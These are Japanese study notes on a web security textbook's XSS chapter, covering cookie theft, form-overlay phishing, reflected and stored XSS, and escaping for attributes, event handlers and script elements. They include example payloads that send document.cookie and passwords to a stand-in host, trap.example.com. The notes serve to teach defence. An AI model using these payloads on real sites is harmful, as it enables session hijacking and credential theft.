 # 徳丸本
- ## 4章 Webアプリケーションの機能別に見るセキュリティバグ(続き)
- ### 4.3 表示処理に伴う問題
- #### 4.3.1 クロスサイト・スクリプティング(基本編)
	- XSSによるCookieの読み出し
		- 例
			- 罠サイトのiframe内で、XSSの脆弱性があるサイトを表示し、情報収集ページに遷移する
			- ```html 
			  <iframe width=320 height=100 src="http://example.jp?keyword=<script>
			  window.location='http://trap.example.com/info?sid='%2Bdocument.cookie;
			  </script>"></iframe>
			  ```
			- \http://example.jpが脆弱なサイトで、keywordで指定された文字列をエスケープせずにHTMLに埋め込むサイトだとする
			- \http://trap.example.com/infoが情報収集ページで、http://example.jpからhttp://trap.example.com/infoに遷移する(GETリクエストを送る)
				- この時、クエリパラメータsidにhttp://example.jpのCookieをつける
				- `%2B`は`+`のASCIIコード
			- \http://trap.example.com/infoでクエリパラメータsidの値を攻撃者のメールアドレスに送信する
	- 画面の書き換え
		- 例
			- XSSの脆弱性があるサイトのHTML要素を変更するというもの
				- JavaScriptを使わずにユーザの情報を盗む
			- \http://example.jpのユーザ情報変更画面(http://example.jp/change)が以下のようになっているとする
				- ```html
				  <form action="http://example.jp/confirm">
				  ユーザ名<input type="text" name="name" value="<?php echo @$_POST['name'];?>">
				  パスワード<input type="password" name="password">
				  <input type="submit" value="確認画面へ">
				  </form>
				  ```
				- ユーザ名の初期値を表示するために、POSTデータを受け取る(そんなサイトない気がするけど)
			- 罠サイト
				- ```html
				  <form action="http://example.jp/change" method="POST">
				  <input name="name" type="hidden" value='"></form>
				  <form style=top:5px;left:5px;position:absolute;z-index:99;background-color:white action=http://trap.example.com method=POST>
				  ユーザ名<input type="text" name="name">
				  パスワード<input type="password" name="password">
				  <input type="submit" value="確認画面へ"><br>
				  ======================================<br>
				  ======================================
				  </form>'>
				  <input type="submit" value="今すぐユーザ情報を変更してください">
				  </form>
				  ```
				- \http://example.jp/changeが受け取るPOSTデータを細工する
					- 元のformタグ(http://example.jpのformタグ)を終了させる
					- 攻撃者が用意したサイト(http://trap.example.com)を送信先とするformタグを含める
					- このformタグを絶対座標で左上に表示する
					- z-indexを大きな値にして、元のformタグの前面に表示する
					- 背景色を白にして元のformタグを見えないようにする
					- `======================================`も元のformタグを見えないようにするためのもの
	- 反射型XSSと持続型XSS
		- 反射型XSS
			- 攻撃用JavaScriptが攻撃対象とは別のサイト(罠サイトやメールに書かれたURL)にある場合
			- 「XSSによるCookieの読み出し」で書いたのは、罠サイトにある例
			- メールに書かれたURLの例
				- `http://example.jp?keyword=<script>fetch('http://trap.example.com?sid='%2Bdocument.cookie)</script>`
				- このURLを誤って踏むと、http://trap.example.comに、http://example.comのCookieが送信される
		- 持続型XSS
			- 攻撃用JavaScriptが攻撃対象のデータベースに保存される場合
	- XSSの原因と対策
		- HTMLの文法上特別な意味を持つ特殊記号(メタ文字)をエスケープしていないことが原因
			- 例えば、`<`をHTML上で表示したい場合は、`&lt;`と書く必要がある
			- `<`のまま表示するとブラウザはタグの開始だと解釈する
		- inputタグのvalue属性など、属性値についてもXSSが発生しうる
			- 例 : `<input type=text name=mail value=<?php echo $_GET['p']; ?>>`
				- pに`1+onmouseover%3dalert(document.cookie)`を与えると、生成されるHTMLは`<input type=text name=mail value=1 onmouseover=alert(document.cookie)>`となる
				- pに`1><script>alert(document.cookie)</script>`を与えると、生成されるHTMLは`<input type=text name=mail value=1><script>alert(docuemnt.cookie)</script>>`となる
					- 最後に>があるけど動く
		- 属性値は`"`で囲む必要がある
		- `"`で囲んでいても`"`をエスケープしないとXSSが可能
			- 例 : `<input type="text" name="mail" value="<?php echo $_GET['p']; ?>">`
				- pに`"+onmouseover%3d"alert(document.cookie)`を与えると、生成されるHTMLは`<input type="text" name="mail" value="" onmouseover="alert(document.cookie)">`となる
				- pに`"><script>alert(document.cookie)</script>`を与えると、生成されるHTMLは`<input type="text" name="mail" value=""><script>alert(document.cookie)</script>">`となる
			- `"`をエスケープすると`&quot;`となる([参考](https://magazine.techacademy.jp/magazine/12553))
	- XSSに対する保険的対策
		- X-XSS-Protectionヘッダ
			- XSSフィルタと呼ばれる、反射型XSSをブラウザが検知して、無効化する機能がある
			- XSSフィルタはデフォルトで有効だが、利用者が無効にしていることがある
			- X-XSS-Protectionヘッダによって、XSSフィルタを使うかの設定を上書きすることが出来る
				- `X-XSS-Protection: 1; mode=block`など(mode=blockをつけないと、エスケープ処理をしてページを表示するが、つけるとレンダリングを停止する)
			- 実はXSSフィルタはほとんどのブラウザでなくなっている([参考](https://spring-mt.hatenablog.com/entry/2020/08/14/224141))
				- XSSフィルタが返って脆弱性に繋がるケースがあるらしい([参考](https://www.mbsd.jp/blog/20160407_2.html))
			- 現在、X-XSS-Protectionヘッダは非推奨とのこと([参考](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/X-XSS-Protection))
		- 入力値検証
		- CookieにHttpOnly属性を付与する
			- セッションIDが盗まれるのを防止することが出来る
		- TRACEメソッドの無効化
			- TRACEメソッドとはHTTPリクエストをそのままHTTPレスポンスとして返すデバッグ用のメソッド
			- CookieにHttpOnly属性が付与されていても、攻撃対象のサーバにTRACEメソッドを送信すれば、レスポンスからセッションIDを盗むことが出来る
				- XST(Cross Site Tracing)攻撃という
			- 現在は全てのブラウザでXST攻撃の対策がされているため、サーバでTRACEメソッドを許可していても、脆弱性とまではいかない([参考](https://blog.tokumaru.org/2013/01/TRACE-method-is-not-so-dangerous-in-fact.html))
- #### 4.3.2 クロスサイト・スクリプティング(発展編)
	- href属性やsrc属性のXSS
		- 例 : `<a href="<?php echo htmlspecialchars($_GET['url']); ?>">リンク</a>`
			- urlに`javascript:alert(document.cookie)`を与えると、リンクをクリックした時にJavaScriptが実行されてしまう
				- javascriptスキームといい、他にもvbscriptスキーム(vbscript://)がある
		- 属性値を`"`で囲み、特殊記号をエスケープしてもXSSが発生してしまう
		- URLをプログラムで生成する場合は、httpスキームとhttpsスキームの絶対URLもしくは相対URLのみを許可する
	- イベントハンドラのXSS
		- イベントハンドラとは、ある条件をトリガーに実行される処理(今回の場合はJavaScript>
		- 例
			- ```html
			  <script>function init(a) {} // ダミーの関数 </script>
			  <body onload="init('<?php echo htmlspecialchars($_GET['name'], ENT_QUOTES) ?>')"></body>
			  ```
			- nameに`');alert(document.cookie)//`を与えると、生成されるHTMLは`<body onload="init('&#039;);alert(document.cookie)//'">`となる
				- `'`がエスケープされると`$#039`になるらしい(`"`や`&`と異なりエスケープ結果が10進数になる？([参考](https://gray-code.com/html_css/list-of-symbols-and-special-characters/)))
			- onloadイベントハンドラはエスケープされた文字を解釈してしまうため、`init('');alert(document.cookie)//'`が実行されてしまう
			- `'`が、文字列としての`'`ではなく、文字列の終端として認識されたのが原因
		- 以下のエスケープをして、JavaScriptの文字列としてから、HTMLのエスケープ処理をする
			- `\` → `\\`
			- `'` → `\'`
			- `"` → `\"`
			- 改行 → `\n`
	- script要素のXSS
		- 例
			- ```html
			  <script>var txt = '<?php echo escape_js($_GET['name']); ?>';</script>
			  ```
			- escape_jsは上記のJavaScriptのエスケープ処理をする関数とする
			- nameに`</script><script>alert(document.cookie)//`を与えると、生成されるHTMLは以下のようになる
				- ```html 
				  <script>var txt = '</script>
				  <script>alert(document.cookie)//';</script>
				  ```
		- script要素の外側でパラメータを定義して、JavaScriptから参照する方法がある
			- ```html 
			  <div id="name" data-name="<?php echo htmlspecialchars($_GET['name'], ENT_COMPAT, 'utf-8'); ?>"></div>
			  <script>var txt = document.getElementById('name').dataset.name;</script>
			  ```